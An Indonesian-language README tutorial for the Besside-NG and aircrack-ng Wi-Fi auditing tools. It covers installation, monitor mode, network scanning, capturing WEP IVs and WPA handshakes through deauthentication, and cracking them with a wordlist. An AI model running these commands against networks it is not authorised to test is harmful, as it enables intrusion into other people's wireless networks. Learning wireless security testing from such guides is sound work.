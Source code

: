 # Besside-NG

![Besside-NG]()

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils expect
   git clone https://github.com/aircrack-ng/aircrack-ng
   cd aircrack-ng
   autoreconf -i
   ./configure --with-experimental
   make
   sudo make install
   sudo ldconfig
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

**1. Scan Wi-Fi:**

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:
   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

**2. Capture Handshake/IVs:**

1. WEP:

   ```
   sudo besside-ng -b [bssid] -c [channel] -vv [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo besside-ng -b [bssid] -c [channel] -W -vv [interface]
   ```
        
**3. Crack Handshake/IVs:**

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Catatan Penting

1. WEP:
   - Harus ada minimal 1 client yang terhubung ke AP untuk serangan ARP Replay berhasil.
   - Jika tidak ada client yang terhubung, serangan akan gagal karena tidak ada traffic ARP yang bisa di-capture dan di-replay.
2. WPA/WPA2-PSK:
   - Harus ada minimal 1 client yang terhubung untuk melakukan Deauth Attack.
   - Jika tidak ada client, handshake tidak bisa ditangkap karena tidak ada yang bisa di-deauth.

## Video Demonstrasi

[https://youtu.be/nDBMile1Fe4?si=NCw7Y36FEvYdBDvb](https://youtu.be/nDBMile1Fe4?si=NCw7Y36FEvYdBDvb)
